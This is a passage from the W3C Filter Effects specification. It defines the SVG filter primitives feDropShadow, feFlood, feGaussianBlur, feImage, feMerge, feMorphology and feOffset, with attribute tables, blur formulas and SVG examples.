`stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in stdDeviation dx dy |
| DOM Interfaces: | [SVGFEDropShadowElement](#filter-effects-1:InterfaceSVGFEDropShadowElement) |

This filter creates a drop shadow of the input image. It is a shorthand filter, and is defined in terms of combinations of other filter primitives. The expectation is that it can be optimized more easily by implementations.

The result of a feDropShadow filter primitive is equivalent to the following:

```
<feGaussianBlur in="alpha-channel-of-feDropShadow-in"   stdDeviation="stdDeviation-of-feDropShadow"/>
<feOffset dx="dx-of-feDropShadow"   dy="dy-of-feDropShadow" result="offsetblur"/>
<feFlood flood-color="flood-color-of-feDropShadow"  flood-opacity="flood-opacity-of-feDropShadow"/>
<feComposite in2="offsetblur" operator="in"/>
<feMerge>
  <feMergeNode/>
  <feMergeNode in="in-of-feDropShadow"/>
</feMerge>
```

The above divided into steps:

1. Take the alpha channel of the input to the feDropShadow filter primitive and the stdDeviation on the feDropShadow and do processing as if the following feGaussianBlur was applied:

   ```
   <feGaussianBlur in="alpha-channel-of-feDropShadow-in" stdDeviation="stdDeviation-of-feDropShadow"/>
   ```
2. Offset the result of step 1 by dx and dy as specified on the feDropShadow element, equivalent to applying an feOffset with these parameters:

   ```
   <feOffset dx="dx-of-feDropShadow" dy="dy-of-feDropShadow" result="offsetblur"/>
   ```
3. Do processing as if an feFlood element with `flood-color` and `flood-opacity` as specified on the feDropShadow was applied:

   ```
   <feFlood flood-color="flood-color-of-feDropShadow" flood-opacity="flood-opacity-of-feDropShadow"/>
   ```
4. Composite the result of the feFlood in step 3 with the result of the feOffset in step 2 as if an feComposite filter primitive with `operator="in"` was applied:

   ```
   <feComposite in2="offsetblur" operator="in"/>
   ```
5. Finally merge the result of the previous step, doing processing as if the following feMerge was performed:

   ```
   <feMerge>
  <feMergeNode/>
  <feMergeNode in="in-of-feDropShadow"/>
   </feMerge>
   ```

> **Note:** that while the definition of the feDropShadow filter primitive says that it can be expanded into an equivalent tree it is not required that it is implemented like that. The expectation is that user agents can optimize the handling by not having to do all the steps separately.

Beyond the DOM interface [SVGFEDropShadowElement](#filter-effects-1:InterfaceSVGFEDropShadowElement) there is no way of accessing the internals of the feDropShadow filter primitive, meaning if the filter primitive is implemented as an equivalent tree then that tree must not be exposed to the DOM.

*Attribute definitions:*

****`dx`** = "*`<number>`*"**

: The x offset of the drop shadow.

  The initial value for dx is `2`.

  This attribute is then forwarded to the dx attribute of the internal feOffset element.

  Animatable: yes.

****`dy`** = "*`<number>`*"**

: The y offset of the drop shadow.

  The initial value for dy is `2`.

  This attribute is then forwarded to the dy attribute of the internal feOffset element.

  Animatable: yes.

****`stdDeviation`** = "*`<number-optional-number>`*"**

: The standard deviation for the blur operation in the drop shadow.

  The initial value for stdDeviation is `2`.

  This attribute is then forwarded to the stdDeviation attribute of the internal feGaussianBlur element.

  Animatable: yes.

#### 9.13. Filter primitive feFlood {#filter-effects-1:feFloodElement}

| Name: | **`feFlood`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) |
| DOM Interfaces: | [SVGFEFloodElement](#filter-effects-1:InterfaceSVGFEFloodElement) |

This filter primitive creates a rectangle filled with the color and opacity values from properties `flood-color` and `flood-opacity`. The rectangle is as large as the filter primitive subregion established by the feFlood element.

##### 9.13.1. The `flood-color` property {#filter-effects-1:FloodColorProperty}

| Field | Value |
| --- | --- |
| Name: | **flood-color** |
| [Value:](#css-values-4:value-defs) | `<color>` |
| [Initial:](#css-cascade-6:initial-values) | black |
| [Applies to:](#css-cascade-5:applies-to) | feFlood and feDropShadow elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | as specified |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

The `flood-color` property indicates what color to used to flood the current filter primitive subregion.

The `flood-color` property is a [presentation attribute](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) for SVG elements.

##### 9.13.2. The `flood-opacity` property {#filter-effects-1:FloodOpacityProperty}

| Field | Value |
| --- | --- |
| Name: | **flood-opacity** |
| [Value:](#css-values-4:value-defs) | `<'opacity'>` |
| [Initial:](#css-cascade-6:initial-values) | 1 |
| [Applies to:](#css-cascade-5:applies-to) | feFlood and feDropShadow elements |
| [Inherited:](#css-cascade-5:inherited-property) | no |
| [Percentages:](#css-values-4:percentages) | n/a |
| [Computed value:](#css-cascade-6:computed) | the specified value converted to a number, clamped to the range [0,1] |
| [Canonical order:](#cssom-1:serializing-css-values) | per grammar |
| [Animation type:](#web-animations-1:animation-type) | by computed value |
| Media: | visual |

The `flood-opacity` property defines the opacity value to use across the entire filter primitive subregion. If the `flood-color` value includes an alpha channel, the alpha channel gets multiplied with the computed value of the `flood-opacity` property.

The `flood-opacity` property is a [presentation attribute](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermPresentationAttribute) for SVG elements.

#### 9.14. Filter primitive feGaussianBlur {#filter-effects-1:feGaussianBlurElement}

| Name: | **`feGaussianBlur`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in stdDeviation edgeMode |
| DOM Interfaces: | [SVGFEGaussianBlurElement](#filter-effects-1:InterfaceSVGFEGaussianBlurElement) |

This filter primitive performs a Gaussian blur on the input image.

The Gaussian blur kernel is an approximation of the normalized convolution:

`G(x,y) = H(x)I(y)`

where

`H(x) = exp(-x2/ (2s2)) / sqrt(2π * s2)`

and

`I(y) = exp(-y2/ (2t2)) / sqrt(2π * t2)`

with "s" being the standard deviation in the x direction and "t" being the standard deviation in the y direction, as specified by stdDeviation.

The value of stdDeviation can be either one or two numbers. If two numbers are provided, the first number represents a standard deviation value along the x-axis of the current coordinate system and the second value represents a standard deviation in Y. If one number is provided, then that value is used for both X and Y.

Even if only one value is provided for stdDeviation, this can be implemented as a separable convolution.

For larger values of "s" (s >= 2.0), an approximation can be used: Three successive box-blurs build a piece-wise quadratic convolution kernel, which approximates the Gaussian kernel to within roughly 3%.

`let d = floor(s * 3 * sqrt(2 * π) / 4 + 0.5)`

... if d is odd, use three box-blurs of size "d", centered on the output pixel.

... if d is even, two box-blurs of size "d" (the first one centered on the pixel boundary between the output pixel and the one to the left, the second one centered on the pixel boundary between the output pixel and the one to the right) and one box blur of size "d+1" centered on the output pixel.

The approximation formula also applies correspondingly to "t".

Frequently this operation will take place on alpha-only images, such as that produced by the built-in input, SourceAlpha. The implementation may notice this and optimize the single channel case. This optimization must be omitted if it leads to privacy concerns of any matter. (See section [§ 15 Privacy Considerations](#filter-effects-1:privacy) for more details about timing attacks.) If the input has infinite extent and is constant (e.g FillPaint where the fill is a solid color), this operation has no effect. If the input has infinite extent and the filter result where the fill is a solid color) is the input to an feTile, the filter is evaluated with [periodic boundary conditions](http://en.wikipedia.org/wiki/Periodic_boundary_conditions).

*Attribute definitions:*

****`stdDeviation`** = "*`<number-optional-number>`*"**

: The standard deviation for the blur operation. If two `<number>` s are provided, the first number represents a standard deviation value along the x-axis of the coordinate system established by attribute primitiveUnits on the filter element. The second value represents a standard deviation in Y. If one number is provided, then that value is used for both X and Y.

  A negative value or a value of zero disables the effect of the given filter primitive (i.e., the result is the filter input image).

  If stdDeviation is `0` in only one of X or Y, then the effect is that the blur is only applied in the direction that has a non-zero value.

  The initial value for stdDeviation is `0`.

  Animatable: yes.

****`edgeMode`** = "duplicate | wrap | mirror | none"**

: Determines how to extend the input image as necessary with color values so that the matrix operations can be applied when the kernel is positioned at or near the edge of the input image.

  **`duplicate`** indicates that the input image is extended along each of its borders as necessary by duplicating the color values at the given edge of the input image.

  Original N-by-M image, where m=M-1 and n=N-1:

  **`wrap`** indicates that the input image is extended by taking the color values from the opposite edge of the image.

  **`mirror`** indicates that the input image is extended by taking color values mirrored across the edge being sampled beyond.

  The value `none` indicates that the input image is extended with pixel values of zero for R, G, B and A.

  The initial value for edgeMode is `none`.

  Animatable: yes.

[The example](#filter-effects-1:intro) at the start of this chapter makes use of the feGaussianBlur filter primitive to create a drop shadow effect.

#### 9.15. Filter primitive feImage {#filter-effects-1:feImageElement}

| Name: | **`feImage`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, animateTransform, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) [externalResourcesRequired](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#ExternalResourcesRequiredAttribute) preserveAspectRatio xlink:href href crossorigin |
| DOM Interfaces: | [SVGFEImageElement](#filter-effects-1:InterfaceSVGFEImageElement) |

This filter primitive refers to a graphic external to this filter element, which is loaded or rendered into an RGBA raster and becomes the result of the filter primitive.

This filter primitive can refer to an external image or can be a reference to another piece of SVG. It produces an image similar to the built-in image source SourceGraphic except that the graphic comes from an external source.

If the href references a stand-alone image resource such as a JPEG, PNG or SVG file, then the image resource is rendered according to the behavior of the image element; otherwise, the referenced resource is rendered according to the behavior of the use element. In either case, the current user coordinate system depends on the value of attribute primitiveUnits on the filter element. The processing of the preserveAspectRatio attribute on the feImage element is identical to that of the image element.

A href reference that is an empty image (zero width or zero height), that fails to download, is non-existent, or that cannot be displayed (e.g. because it is not in a supported image format) fills the filter primitive subregion with transparent black.

When the referenced image must be resampled to match the device coordinate system, it is recommended that high quality viewers make use of appropriate interpolation techniques, for example bilinear or bicubic. Depending on the speed of the available interpolents, this choice may be affected by the `image-rendering` property setting.

*Attribute definitions:*

****`xlink:href`** = "`<url>`"**

: See href attribute.

  Animatable: yes.

  > **Note:** This *xlink:href* attribute is deprecated and should not be used in new content, it’s included for backwards compatibility reasons only. Authors should use the href attribute instead.

****`href`** = "`<url>`"**

: An `<url>` to an image resource or to an element. If both, the xlink:href and the href attribute are specified, the latter overrides the first definition.

  Animatable: yes.

****`preserveAspectRatio`** = "*[defer] <align> [<meetOrSlice>]*"**

: See preserveAspectRatio.

  The initial value for preserveAspectRatio is `xMidYMid meet`.

  Animatable: yes.

****`crossorigin`** = "*anonymous* | *use-credentials*"**

: The [crossorigin](https://html.spec.whatwg.org/multipage/embedded-content.html#attr-img-crossorigin) attribute is a CORS settings attribute. Its purpose is to allow images from third-party sites that allow cross-origin access to be used with feDisplacementMap. For the defintion see [crossorigin](https://html.spec.whatwg.org/multipage/embedded-content.html#attr-img-crossorigin) attribute for the img tag [HTML] and the [§ 15 Privacy Considerations](#filter-effects-1:privacy) section in this specification.

  Animatable: no.

> **Example:** The following example illustrates how images are placed relative to an object. From left to right:
>
> - The default placement of an image. Note that the image is centered in the filter region and has the maximum size that will fit in the region consistent with preserving the aspect ratio.
> - The image stretched to fit the bounding box of an object.
> - The image placed using user coordinates. Note that the image is first centered in a box the size of the filter region and has the maximum size that will fit in the box consistent with preserving the aspect ratio. This box is then shifted by the given x and y values relative to the viewport the object is in.
>
> ```
> <svg width="600" height="250" viewBox="0 0 600 250"
>      xmlns="http://www.w3.org/2000/svg"
>      xmlns:xlink="http://www.w3.org/1999/xlink">
>   <title>Example feImage - Examples of feImage use</title>
>   <desc>Three examples of using feImage, the first showing the
>         default rendering, the second showing the image fit
>         to a box and the third showing the image
>         shifted and clipped.</desc>
>   <defs>
>     <filter id="Default">
>       <feImage xlink:href="smiley.png" />
>     </filter>
>     <filter id="Fitted" primitiveUnits="objectBoundingBox">
>       <feImage xlink:href="smiley.png"
>          x="0" y="0" width="100%" height="100%"
>          preserveAspectRatio="none"/>
>     </filter>
>     <filter id="Shifted">
>       <feImage xlink:href="smiley.png"
>          x="500" y="5"/>
>     </filter>
>   </defs>
>   <rect fill="none" stroke="blue"
>         x="1" y="1" width="598" height="248"/>
>   <g>
>     <rect x="50"  y="25" width="100" height="200" filter="url(#Default)"/>
>     <rect x="50"  y="25" width="100" height="200" fill="none" stroke="green"/>
>     <rect x="250" y="25" width="100" height="200" filter="url(#Fitted)"/>
>     <rect x="250" y="25" width="100" height="200" fill="none" stroke="green"/>
>     <rect x="450" y="25" width="100" height="200" filter="url(#Shifted)"/>
>     <rect x="450" y="25" width="100" height="200" fill="none" stroke="green"/>
>   </g>
> </svg>
> ```
>
> 
>
> Example of feImage
>
> [View this example as SVG](../filter-effects-1/examples/feImage-01.svg)

#### 9.16. Filter primitive feMerge {#filter-effects-1:feMergeElement}

| Name: | **`feMerge`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, feMergeNode, script elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) |
| DOM Interfaces: | [SVGFEMergeElement](#filter-effects-1:InterfaceSVGFEMergeElement) |

This filter primitive composites input image layers on top of each other using the *over* operator with *Input1* (corresponding to the first feMergeNode child element) on the bottom and the last specified input, *InputN* (corresponding to the last feMergeNode child element), on top.

Many effects produce a number of intermediate layers in order to create the final output image. This filter allows us to collapse those into a single image. Although this could be done by using n-1 Composite-filters, it is more convenient to have this common operation available in this form, and offers the implementation some additional flexibility.

Each feMerge element can have any number of feMergeNode subelements, each of which has an in attribute.

The canonical implementation of feMerge is to render the entire effect into one RGBA layer, and then render the resulting layer on the output device. In certain cases (in particular if the output device itself is a continuous tone device), and since merging is associative, it might be a sufficient approximation to evaluate the effect one layer at a time and render each layer individually onto the output device bottom to top.

If the topmost image input is SourceGraphic and this feMerge is the last filter primitive in the filter, the implementation is encouraged to render the layers up to that point, and then render the SourceGraphic directly from its vector description on top.

[The example](#filter-effects-1:intro) at the start of this chapter makes use of the feMerge filter primitive to composite two intermediate filter results together.

##### 9.16.1. Merge node feMergeNode {#filter-effects-1:feMergeNodeElement}

| Name: | **`feMergeNode`** |
| --- | --- |
| Categories: | None. |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) in |
| DOM Interfaces: | [SVGFEMergeNodeElement](#filter-effects-1:InterfaceSVGFEMergeNodeElement) |

#### 9.17. Filter primitive feMorphology {#filter-effects-1:feMorphologyElement}

| Name: | **`feMorphology`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in operator radius |
| DOM Interfaces: | [SVGFEMorphologyElement](#filter-effects-1:InterfaceSVGFEMorphologyElement) |

This filter primitive performs "fattening" or "thinning" of artwork. It is particularly useful for fattening or thinning an alpha channel.

The dilation (or erosion) kernel is a rectangle with a width of 2**x-radius* and a height of 2**y-radius*. In dilation, the output pixel is the individual component-wise maximum of the corresponding R,G,B,A values in the input image’s kernel rectangle. In erosion, the output pixel is the individual component-wise minimum of the corresponding R,G,B,A values in the input image’s kernel rectangle.

Frequently this operation will take place on alpha-only images, such as that produced by the built-in input, SourceAlpha. In that case, the implementation might want to optimize the single channel case. This optimization must be omitted if it leads to privacy concerns of any matter. (See section [§ 15 Privacy Considerations](#filter-effects-1:privacy) for more details.)

If the input has infinite extent and is constant (e.g FillPaint where the fill is a solid color), this operation has no effect. If the input has infinite extent and the filter result is the input to an feTile, the filter is evaluated with [periodic boundary conditions](http://en.wikipedia.org/wiki/Periodic_boundary_conditions).

Because feMorphology operates on premultipied color values, it will always result in color values less than or equal to the alpha channel.

*Attribute definitions:*

****`operator`** = "*erode | dilate*"**

: A keyword indicating whether to erode (i.e., thin) or dilate (fatten) the source graphic.

  The initial value for operator is `erode`.

  Animatable: yes.

****`radius`** = "*`<number-optional-number>`*"**

: The radius (or radii) for the operation. If two `<number>` s are provided, the first number represents a x-radius and the second value represents a y-radius. If one number is provided, then that value is used for both X and Y. The values are in the coordinate system established by attribute primitiveUnits on the filter element.

  A negative or zero value disables the effect of the given filter primitive (i.e., the result is the filter input image).

  The initial value for radius is `0`.

  Animatable: yes.

> **Example:** ```
> <svg width="5cm" height="7cm" viewBox="0 0 700 500"
>      xmlns="http://www.w3.org/2000/svg">
>   <title>Example feMorphology - Examples of erode and dilate</title>
>   <desc>Five text strings drawn as outlines.
>         The first is unfiltered. The second and third use 'erode'.
>         The fourth and fifth use 'dilate'.</desc>
>   <defs>
>     <filter id="Erode3">
>       <feMorphology operator="erode" in="SourceGraphic" radius="3" />
>     </filter>
>     <filter id="Erode6">
>       <feMorphology operator="erode" in="SourceGraphic" radius="6" />
>     </filter>
>     <filter id="Dilate3">
>       <feMorphology operator="dilate" in="SourceGraphic" radius="3" />
>     </filter>
>     <filter id="Dilate6">
>       <feMorphology operator="dilate" in="SourceGraphic" radius="6" />
>     </filter>
>   </defs>
>   <rect fill="none" stroke="blue" stroke-width="2"
>         x="1" y="1" width="698" height="498"/>
>   <g isolation="isolate" >
>     <g font-family="Verdana" font-size="75"
>               fill="none" stroke="black" stroke-width="6" >
>       <text x="50" y="90">Unfiltered</text>
>       <text x="50" y="180" filter="url(#Erode3)" >Erode radius 3</text>
>       <text x="50" y="270" filter="url(#Erode6)" >Erode radius 6</text>
>       <text x="50" y="360" filter="url(#Dilate3)" >Dilate radius 3</text>
>       <text x="50" y="450" filter="url(#Dilate6)" >Dilate radius 6</text>
>     </g>
>   </g>
> </svg>
> ```
>
> 
>
> Example of feMorphology
>
> [View this example as SVG](../filter-effects-1/examples/feMorphology.svg)

#### 9.18. Filter primitive feOffset {#filter-effects-1:feOffsetElement}

| Name: | **`feOffset`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, animate, script, set elements, in any order. |
| Attributes: | [core attributes](https://www.w3.org/TR/2011/REC-SVG11-20110816/intro.html#TermCoreAttributes) — [id](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#IDAttribute), [xml:base](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLBaseAttribute), [xml:lang](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLLangAttribute), [xml:space](https://www.w3.org/TR/2011/REC-SVG11-20110816/struct.html#XMLSpaceAttribute) [presentation attributes](http://www.w3.org/TR/2008/REC-SVGTiny12-20081222/intro.html#TermPresentationAttribute) — `alignment-baseline`, `baseline-shift`, `clip`, `clip-path`, `clip-rule`, `color`, `color-interpolation`, `color-interpolation-filters`, color-rendering, `cursor`, `direction`, `display`, `dominant-baseline`, `enable-background`, `fill`, `fill-opacity`, `fill-rule`, `filter`, `flood-color`, `flood-opacity`, `font`, `font-family`, `font-size`, `font-size-adjust`, `font-stretch`, `font-style`, `font-variant`, `font-weight`, `glyph-orientation-vertical`, `image-rendering`, `isolation`, `kerning`, `letter-spacing`, `lighting-color`, `marker`, `marker-end`, `marker-mid`, `marker-start`, `mask`, `opacity`, `overflow`, `pointer-events`, `shape-rendering`, `stop-color`, `stop-opacity`, `stroke`, `stroke-dasharray`, `stroke-dashoffset`, `stroke-linecap`, `stroke-linejoin`, `stroke-miterlimit`, `stroke-opacity`, `stroke-width`, `text-anchor`, `text-decoration`, `text-rendering`, `unicode-bidi`, `visibility`, `word-spacing`, `writing-mode` filter primitive attributes —​x, y, width, height, result [class](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#ClassAttribute) [style](https://www.w3.org/TR/2011/REC-SVG11-20110816/styling.html#StyleAttribute) in dx dy |
| DOM Interfaces: | [SVGFEOffsetElement](#filter-effects-1:InterfaceSVGFEOffsetElement) |

This filter primitive offsets the input image relative to its current position in the image space by the specified vector.

This is important for effects like drop shadows.

When applying this filter, the destination location may be offset by a fraction of a pixel in device space. In this case a high quality viewer should make use of appropriate interpolation techniques, for example bilinear or bicubic. This is especially recommended for dynamic viewers where this interpolation provides visually smoother movement of images. For static viewers this is less of a concern. Close attention should be made to the `image-rendering` property setting to determine the authors intent.

*Attribute definitions:*

****`dx`** = "*`<number>`*"**

: The amount to offset the input graphic along the x-axis. The offset amount is expressed in the coordinate system established by attribute primitiveUnits on the filter element.

  The initial value for dx is `0`.

  Animatable: yes.

****`dy`** = "*`<number>`*"**

: The amount to offset the input graphic along the y-axis. The offset amount is expressed in the coordinate system established by attribute primitiveUnits on the filter element.

  The initial value for dy is `0`.

  Animatable: yes.

[The example](#filter-effects-1:intro) at the start of this chapter makes use of the feOffset filter primitive to offset the drop shadow from the original source graphic.

#### 9.19. Filter primitive feSpecularLighting {#filter-effects-1:feSpecularLightingElement}

| Name: | **`feSpecularLighting`** |
| --- | --- |
| Categories: | filter primitive |
| Content model: | Any number of descriptive elements, script and exactly one light sources element, in any order. |
